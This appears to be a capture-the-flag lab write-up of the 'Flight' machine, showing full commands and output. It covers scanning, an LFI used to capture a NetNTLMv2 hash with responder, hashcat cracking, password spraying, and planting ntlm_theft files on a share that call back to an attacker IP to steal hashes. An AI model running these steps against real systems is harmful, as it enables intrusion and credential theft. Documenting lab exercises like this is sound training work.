






# Flight
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.187 -T4 --min-rate 5000                                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-20 19:23 BST
Nmap scan report for 10.10.11.187 (10.10.11.187)
Host is up (0.099s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49668/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 43.28 seconds
```
```
└─$ nmap -Pn -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.11.187 -T4 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-20 19:26 BST
Nmap scan report for 10.10.11.187 (10.10.11.187)
Host is up (0.13s latency).

PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
80/tcp   open     http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
88/tcp   filtered kerberos-sec
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  filtered kpasswd5
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open     mc-nmf        .NET Message Framing
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T01:26:00
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.48 seconds

```

- Web server


- `vhosts`
```
└─$ wfuzz -u http://flight.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.flight.htb" --hh 7069                      
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://flight.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000624:   200        90 L     412 W      3996 Ch     "school"  
```

- `gobuster`
  - `feroxbuster -u http://flight.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k `
```
└─$ gobuster dir -u http://flight.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error  
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://flight.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/09/21 17:49:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 333] [--> http://flight.htb/images/]
/Images               (Status: 301) [Size: 333] [--> http://flight.htb/Images/]
/css                  (Status: 301) [Size: 330] [--> http://flight.htb/css/]
/js                   (Status: 301) [Size: 329] [--> http://flight.htb/js/]
/examples             (Status: 503) [Size: 399]
/licenses             (Status: 403) [Size: 418]
/IMAGES               (Status: 301) [Size: 333] [--> http://flight.htb/IMAGES/]
/%20                  (Status: 403) [Size: 299]
/*checkout*.php       (Status: 403) [Size: 299]
/*checkout*           (Status: 403) [Size: 299]
/*checkout*.txt       (Status: 403) [Size: 299]
/CSS                  (Status: 301) [Size: 330] [--> http://flight.htb/CSS/]
/JS                   (Status: 301) [Size: 329] [--> http://flight.htb/JS/]
/phpmyadmin           (Status: 403) [Size: 418]
/webalizer            (Status: 403) [Size: 418]
/*docroot*.php        (Status: 403) [Size: 299]
/*docroot*            (Status: 403) [Size: 299]
/*docroot*.txt        (Status: 403) [Size: 299]
/*.txt                (Status: 403) [Size: 299]
/*                    (Status: 403) [Size: 299]
/*.php                (Status: 403) [Size: 299]
/con                  (Status: 403) [Size: 299]
/con.txt              (Status: 403) [Size: 299]
/con.php              (Status: 403) [Size: 299]

```
```
└─$ gobuster dir -u http://school.flight.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://school.flight.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/09/21 17:53:03 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3996]
/images               (Status: 301) [Size: 347] [--> http://school.flight.htb/images/]
/Images               (Status: 301) [Size: 347] [--> http://school.flight.htb/Images/]
/Index.php            (Status: 200) [Size: 3996]
/examples             (Status: 503) [Size: 406]
/styles               (Status: 301) [Size: 347] [--> http://school.flight.htb/styles/]
/licenses             (Status: 403) [Size: 425]
/IMAGES               (Status: 301) [Size: 347] [--> http://school.flight.htb/IMAGES/]
/%20                  (Status: 403) [Size: 306]
/INDEX.php            (Status: 200) [Size: 3996]
/*checkout*.txt       (Status: 403) [Size: 306]
/*checkout*           (Status: 403) [Size: 306]
/*checkout*.php       (Status: 403) [Size: 306]
/phpmyadmin           (Status: 403) [Size: 425]
/webalizer            (Status: 403) [Size: 425]
/Styles               (Status: 301) [Size: 347] [--> http://school.flight.htb/Styles/]
/*docroot*.php        (Status: 403) [Size: 306]
/*docroot*.txt        (Status: 403) [Size: 306]
/*docroot*            (Status: 403) [Size: 306]
/*                    (Status: 403) [Size: 306]
/*.txt                (Status: 403) [Size: 306]
/*.php                (Status: 403) [Size: 306]
/con.txt              (Status: 403) [Size: 306]
/con                  (Status: 403) [Size: 306]
/con.php              (Status: 403) [Size: 306]
/http%3A              (Status: 403) [Size: 306]
/http%3A.txt          (Status: 403) [Size: 306]
/http%3A.php          (Status: 403) [Size: 306]
/**http%3a.txt        (Status: 403) [Size: 306]
/**http%3a            (Status: 403) [Size: 306]
/**http%3a.php        (Status: 403) [Size: 306]
/*http%3A.txt         (Status: 403) [Size: 306]
/*http%3A.php         (Status: 403) [Size: 306]
/*http%3A             (Status: 403) [Size: 306]
/aux                  (Status: 403) [Size: 306]
/aux.txt              (Status: 403) [Size: 306]
/aux.php              (Status: 403) [Size: 306]
/**http%3A.php        (Status: 403) [Size: 306]
/**http%3A            (Status: 403) [Size: 306]
/**http%3A.txt        (Status: 403) [Size: 306]
/%C0                  (Status: 403) [Size: 306]
/%C0.txt              (Status: 403) [Size: 306]
/%C0.php              (Status: 403) [Size: 306]

```

- `smb`
```
└─$ smbclient -N -L //flight.htb                                                                        
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to flight.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

- `school.flight.htb`


## Foothold
- We have a potential `lfi` with `view` parameter
  - But we our request gets blocked


- If we change `\` to `/` we bypass the block


- We can test for `rfi`
  - But `php` is not processed



- Let's launch `responder` and try to intercept the hash




- Let's try cracking the hash
  - `svc_apache:S@Ss!K@*t13`
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt                     
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
SVC_APACHE::flight:a1d802983cf1295e:2a5deb80aa9f3ef5d2d33830ba6bb149:0101000000000000808d2fad41eed901322fa9f8baad618c0000000002000800460035005700460001001e00570049004e002d004400450045004b0044004b003100560056004c00350004003400570049004e002d004400450045004b0044004b003100560056004c0035002e0046003500570046002e004c004f00430041004c000300140046003500570046002e004c004f00430041004c000500140046003500570046002e004c004f00430041004c0007000800808d2fad41eed90106000400020000000800300030000000000000000000000000300000ea6b7f0aaf37ef71cd4e465811c76d335a8573866f11c7ffe603a95f9f5a2dc00a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0039000000000000000000:S@Ss!K@*t13
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SVC_APACHE::flight:a1d802983cf1295e:2a5deb80aa9f3ef...000000
Time.Started.....: Sat Sep 23 17:18:11 2023 (9 secs)
Time.Estimated...: Sat Sep 23 17:18:20 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1190.1 kH/s (0.37ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10663424/14344385 (74.34%)
Rejected.........: 0/10663424 (0.00%)
Restore.Point....: 10662912/14344385 (74.34%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: S@ltw@ter -> S8tr4Love
Hardware.Mon.#1..: Util: 91%

Started: Sat Sep 23 17:18:11 2023
Stopped: Sat Sep 23 17:18:22 2023

```

- The creds work for `smb`
```
└─$ crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
```
```
└─$ smbmap -H 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ ONLY
```
## User #1
- `smb`
  - Nothing interesting in `users`
```
└─$ smbmap -H 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -R users
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        users                                                   READ ONLY
        .\users\*
        dw--w--w--                0 Thu Sep 22 21:16:56 2022    .
        dw--w--w--                0 Thu Sep 22 21:16:56 2022    ..
        dr--r--r--                0 Thu Sep 22 20:28:03 2022    .NET v4.5
        dr--r--r--                0 Thu Sep 22 20:28:02 2022    .NET v4.5 Classic
        dr--r--r--                0 Mon Oct 31 18:34:00 2022    Administrator
        dr--r--r--                0 Tue Jul 20 21:19:19 2021    All Users
        dr--r--r--                0 Thu Sep 22 21:08:23 2022    C.Bum
        dw--w--w--                0 Tue Jul 20 20:20:24 2021    Default
        dr--r--r--                0 Tue Jul 20 21:19:19 2021    Default User
        fr--r--r--              174 Tue Jul 20 21:17:23 2021    desktop.ini
        dw--w--w--                0 Tue Jul 20 20:23:25 2021    Public
        dr--r--r--                0 Fri Oct 21 19:50:21 2022    svc_apache
...

```

- Nothing on `Shared`
```
└─$ smbmap -H 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -R Shared
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Shared                                                  READ ONLY
        .\Shared\*
        dr--r--r--                0 Fri Oct 28 21:21:28 2022    .
        dr--r--r--                0 Fri Oct 28 21:21:28 2022    ..

```

- Nothing on `Web`
```
└─$ smbmap -H 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -R Web   
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Web                                                     READ ONLY
        .\Web\*
        dr--r--r--                0 Sun Sep 24 01:17:00 2023    .
        dr--r--r--                0 Sun Sep 24 01:17:00 2023    ..
        dr--r--r--                0 Sun Sep 24 01:17:00 2023    flight.htb
        dr--r--r--                0 Sun Sep 24 01:17:00 2023    school.flight.htb
        .\Web\flight.htb\*

```

- Let's get users
  - `rpcclient`
  - `impacket-lookupsid`
  - or `crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb --users`
```
└─$ rpcclient -U 'svc_apache' -N flight.htb --password='S@Ss!K@*t13'
rpcclient $> querydispinfo 
index: 0xeda RID: 0x1f4 acb: 0x00004210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xfb5 RID: 0x647 acb: 0x00000210 Account: C.Bum  Name: (null)    Desc: Senior Web Developer
index: 0xfb8 RID: 0x64a acb: 0x00000210 Account: D.Truff        Name: (null)    Desc: Project Manager
index: 0xfb2 RID: 0x644 acb: 0x00000210 Account: G.Lors Name: (null)    Desc: Sales manager
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfb7 RID: 0x649 acb: 0x00000210 Account: I.Francis      Name: (null)    Desc: Nobody knows why he's here
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xfb3 RID: 0x645 acb: 0x00000210 Account: L.Kein Name: (null)    Desc: Penetration tester
index: 0xfb4 RID: 0x646 acb: 0x00000210 Account: M.Gold Name: (null)    Desc: Sysadmin
index: 0xfbb RID: 0x64d acb: 0x00000210 Account: O.Possum       Name: (null)    Desc: Helpdesk
index: 0xfb1 RID: 0x643 acb: 0x00000210 Account: R.Cold Name: (null)    Desc: HR Assistant
index: 0xfb0 RID: 0x642 acb: 0x00000210 Account: S.Moon Name: (null)    Desc: Junion Web Developer
index: 0xfba RID: 0x64c acb: 0x00000210 Account: svc_apache     Name: (null)    Desc: Service Apache web
index: 0xfb9 RID: 0x64b acb: 0x00000210 Account: V.Stevens      Name: (null)    Desc: Secretary
index: 0xfb6 RID: 0x648 acb: 0x00000210 Account: W.Walker       Name: (null)    Desc: Payroll officer
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[S.Moon] rid:[0x642]
user:[R.Cold] rid:[0x643]
user:[G.Lors] rid:[0x644]
user:[L.Kein] rid:[0x645]
user:[M.Gold] rid:[0x646]
user:[C.Bum] rid:[0x647]
user:[W.Walker] rid:[0x648]
user:[I.Francis] rid:[0x649]
user:[D.Truff] rid:[0x64a]
user:[V.Stevens] rid:[0x64b]
user:[svc_apache] rid:[0x64c]
user:[O.Possum] rid:[0x64d]
```
```
└─$ impacket-lookupsid flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at flight.htb
[*] StringBinding ncacn_np:flight.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: flight\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: flight\Administrator (SidTypeUser)
501: flight\Guest (SidTypeUser)
502: flight\krbtgt (SidTypeUser)
512: flight\Domain Admins (SidTypeGroup)
513: flight\Domain Users (SidTypeGroup)
514: flight\Domain Guests (SidTypeGroup)
515: flight\Domain Computers (SidTypeGroup)
516: flight\Domain Controllers (SidTypeGroup)
517: flight\Cert Publishers (SidTypeAlias)
518: flight\Schema Admins (SidTypeGroup)
519: flight\Enterprise Admins (SidTypeGroup)
520: flight\Group Policy Creator Owners (SidTypeGroup)
521: flight\Read-only Domain Controllers (SidTypeGroup)
522: flight\Cloneable Domain Controllers (SidTypeGroup)
525: flight\Protected Users (SidTypeGroup)
526: flight\Key Admins (SidTypeGroup)
527: flight\Enterprise Key Admins (SidTypeGroup)
553: flight\RAS and IAS Servers (SidTypeAlias)
571: flight\Allowed RODC Password Replication Group (SidTypeAlias)
572: flight\Denied RODC Password Replication Group (SidTypeAlias)
1000: flight\Access-Denied Assistance Users (SidTypeAlias)
1001: flight\G0$ (SidTypeUser)
1102: flight\DnsAdmins (SidTypeAlias)
1103: flight\DnsUpdateProxy (SidTypeGroup)
1602: flight\S.Moon (SidTypeUser)
1603: flight\R.Cold (SidTypeUser)
1604: flight\G.Lors (SidTypeUser)
1605: flight\L.Kein (SidTypeUser)
1606: flight\M.Gold (SidTypeUser)
1607: flight\C.Bum (SidTypeUser)
1608: flight\W.Walker (SidTypeUser)
1609: flight\I.Francis (SidTypeUser)
1610: flight\D.Truff (SidTypeUser)
1611: flight\V.Stevens (SidTypeUser)
1612: flight\svc_apache (SidTypeUser)
1613: flight\O.Possum (SidTypeUser)
1614: flight\WebDevs (SidTypeGroup)
```

- Let's try password spraying
```
└─$ crackmapexec smb 10.10.11.187 -u user.list -p 'S@Ss!K@*t13' --continue-on-success
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.10.11.187    445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE
```
## User #2
- `smb`
  - Now we have `Write` privileges over `Shared` directory
  - We can drop the files to steal users hash in case someone visits the `share`
    - https://github.com/Greenwolf/ntlm_theft
```
└─$ smbmap -H 10.10.11.187 -u 'S.Moon' -p 'S@Ss!K@*t13'             
[+] IP: 10.10.11.187:445        Name: flight.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ, WRITE
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
        Web                                                     READ ONLY

```

- Let's generate files
```
└─$ python3 ntlm_theft.py -g all -f 0x13 -s 10.10.16.9 
Created: 0x13/0x13.scf (BROWSE TO FOLDER)
Created: 0x13/0x13-(url).url (BROWSE TO FOLDER)
Created: 0x13/0x13-(icon).url (BROWSE TO FOLDER)
Created: 0x13/0x13.lnk (BROWSE TO FOLDER)
Created: 0x13/0x13.rtf (OPEN)
Created: 0x13/0x13-(stylesheet).xml (OPEN)
Created: 0x13/0x13-(fulldocx).xml (OPEN)
Created: 0x13/0x13.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: 0x13/0x13-(includepicture).docx (OPEN)
Created: 0x13/0x13-(remotetemplate).docx (OPEN)
Created: 0x13/0x13-(frameset).docx (OPEN)
Created: 0x13/0x13-(externalcell).xlsx (OPEN)
Created: 0x13/0x13.wax (OPEN)
Created: 0x13/0x13.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: 0x13/0x13.asx (OPEN)
Created: 0x13/0x13.jnlp (OPEN)
Created: 0x13/0x13.application (DOWNLOAD AND OPEN)
Created: 0x13/0x13.pdf (OPEN AND ALLOW)
Created: 0x13/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: 0x13/Autorun.inf (BROWSE TO FOLDER)
Created: 0x13/desktop.ini (BROWSE TO FOLDER)
Generation Complete.

```

- Now we need to drop them to `Shared`
  - Bunch of them got blocked
  - I set up `responder` before uploading the files
```
└─$ smbclient //flight.htb/shared -U 'S.Moon%S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> prompt
smb: \> mput *
NT_STATUS_ACCESS_DENIED opening remote file \0x13.wax
putting file 0x13.application as \0x13.application (3.7 kb/s) (average 3.7 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(url).url
NT_STATUS_ACCESS_DENIED opening remote file \0x13.scf
putting file 0x13-(stylesheet).xml as \0x13-(stylesheet).xml (0.5 kb/s) (average 2.4 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(externalcell).xlsx
putting file 0x13-(fulldocx).xml as \0x13-(fulldocx).xml (85.2 kb/s) (average 46.5 kb/s)
putting file 0x13.jnlp as \0x13.jnlp (0.6 kb/s) (average 39.0 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \0x13.asx
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(remotetemplate).docx
NT_STATUS_ACCESS_DENIED opening remote file \0x13.lnk
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(includepicture).docx
NT_STATUS_ACCESS_DENIED opening remote file \0x13.htm
NT_STATUS_ACCESS_DENIED opening remote file \0x13.rtf
NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
putting file desktop.ini as \desktop.ini (0.2 kb/s) (average 33.7 kb/s)
NT_STATUS_ACCESS_DENIED opening remote file \0x13.pdf
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(icon).url
NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
NT_STATUS_ACCESS_DENIED opening remote file \0x13-(frameset).docx
NT_STATUS_ACCESS_DENIED opening remote file \0x13.m3u
smb: \> ls
  .                                   D        0  Sun Sep 24 01:46:32 2023
  ..                                  D        0  Sun Sep 24 01:46:32 2023
  0x13-(fulldocx).xml                 A    72584  Sun Sep 24 01:46:30 2023
  0x13-(stylesheet).xml               A      162  Sun Sep 24 01:46:29 2023
  0x13.application                    A     1649  Sun Sep 24 01:46:29 2023
  0x13.jnlp                           A      191  Sun Sep 24 01:46:31 2023
  desktop.ini                         A       46  Sun Sep 24 01:46:32 2023

                5056511 blocks of size 4096. 1253131 blocks available

```

- And we got a hit



- Let's crack it
  - `C.BUM:Tikkycoll_431012284`
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...
